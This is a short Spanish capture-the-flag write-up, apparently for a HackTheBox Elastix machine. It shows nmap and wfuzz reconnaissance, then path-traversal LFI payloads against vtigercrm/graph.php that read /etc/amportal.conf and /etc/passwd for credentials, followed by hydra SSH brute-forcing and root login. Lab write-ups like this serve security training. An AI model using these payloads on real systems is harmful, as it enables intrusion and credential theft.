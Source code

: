 ![Image text]()

## Linux - Easy
IP = 10.10.10.7

### USER ###

*** 
Ejecutamos nmap 
    
    nmap 10.10.10.7 -p- --open --min-rate 5000 -vv -n -Pn -oG allPorts
    
![Image text]()

    nmap 10.10.10.7 -sC -sV -p80  -oN targeted

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/shocker/targeted.jpg)

Detectamos un apache, openssh, smtp, imap, ssl 
Revisamos la pagina web vemos que es un elastix (https://es.wikipedia.org/wiki/Elastix)

![Image text]()

realizamos un scaneo de directorios en busca de algo mas de información

    wfuzz -c -t 400 --hc=404 --hh=1785 -L -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.7/FUZZ/
            
![Image text]()

Detectamos varias paginas entre ellas admin accedemos e intentamos conectar con las password por defecto y no funciona.
Buscamos informacion sobre Elastix y encontramos una vulnerabilidad LFI 
(https://www.exploit-db.com/exploits/37637)

    /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
    
Lo ejecutamos y vemos que nos muestra unas credenciales.

probamos a ver /etc/passwd para ver los usuarios que tienen bash e intentar conectar con ellos

     /vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action

Sacamos el listado de usuarios y lanzamos hydra para ver si nos conecta por ssh con las credenciales obtenidas.



Accemos con root por ssh

conseguimos la flag de user.txt

conseguimos la flag de root.txt




